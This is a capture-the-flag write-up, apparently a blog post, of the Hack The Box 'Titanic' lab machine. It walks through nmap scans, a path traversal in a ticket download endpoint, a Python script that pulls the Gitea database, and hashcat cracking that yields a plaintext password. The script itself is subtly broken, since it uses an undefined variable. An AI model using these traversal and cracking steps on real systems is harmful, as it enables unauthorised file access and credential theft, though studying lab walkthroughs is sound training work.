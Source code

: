 ```yaml
---
layout: post
title: titanic
categories: htb
tags: htb
---
```


# Titanic

## Enumeration

```
$ nmap -p- 10.10.11.55            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-08 06:33 EDT
Nmap scan report for titanic (10.10.11.55)
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.27 seconds

$ nmap -p22,80 -sC -sV 10.10.11.55
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-08 06:33 EDT
Nmap scan report for titanic (10.10.11.55)
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
```

## Exploitation

### User flag

update `/etc/hosts` because of the redirect information

```
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.55     titanic titanic.htb

::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```

start burpsuite before visiting the site

![titanic_site](image-8.png)

all the links are dead, but there is a form at the bottom of the page

![book_trip](image-9.png)

when you click, it downloads a ticket that is formatted in json

![json_ticket](image-10.png)

check for a path traversal vuln with `/etc/passwd`

![path_traversal](image-11.png)

no passwords though. the user `developer` looks promising, so try to read a `user.txt` file there et voila

![user.txt](image-12.png)

i need execution on the box though and ince ssh is the only other option, look at the configs for that 

![ssh_configs](image-13.png)

Needs a password to login, so back to enumeration. Found another subdomain `dev.titanic.htb` by looking at `/etc/hosts`

![dev_subdomain](image-14.png)

![dev_page](image-15.png)

So now I know that gitea is installed and, from the repos, looks like docker and flask are running. 

![dev_repos](image-18.png)

I can see where the site is mapped to on the box

![apache_sites](image-16.png)

I started clicking around and looking at repositories, but nothing really screamed creds, so turned to documentation. Looked at the docker installation for gitea and found an interesting path that would help

![gitea_docker](image-17.png)

when i read that file, there is an interesting database file path

![gitea_config](image-20.png)

wrote a quick script to save the db file

```
$ cat get_gitea_db.py 
import requests

proxies = { "http" : "http://127.0.0.1:8080" }
filepath = "home/developer/gitea/data/gitea/gitea.db"

r = requests.get("http://titanic.htb/download", proxies=proxies, stream=True, params={"ticket":"../../../../home/developer/gitea/{}".format(p)})
with open("./gitea.db", "wb") as f:
    f.write(r.content)
```

the table that is most interesting right now is the `user` table. from the [documentation](https://fossies.org/linux/gitea/modules/auth/password/hash/setting.go) I can see that password is hashed using `pbkdf2`. this [site](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes) helped me understand what to do to convert gitea password to hachcat ingestable one and also provided a handy script

```
$ sqlite3 gitea.db 'select salt,passwd from user;' | python gitea2hashcat.py 
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)

sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

run those through hashcat and the `developer` hash is immediately cracked using the `rockyou` wordlist 

```
$ hashcat -m 10900 gitea_hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

### Root flag

run `linpeas` so see if there are any privesc vecors

![writable_path](image-19.png)

## Notes

[Site](https://idafchev.github.io/enumeration/2018/03/05/linux_proc_enum.html) used for Linux enum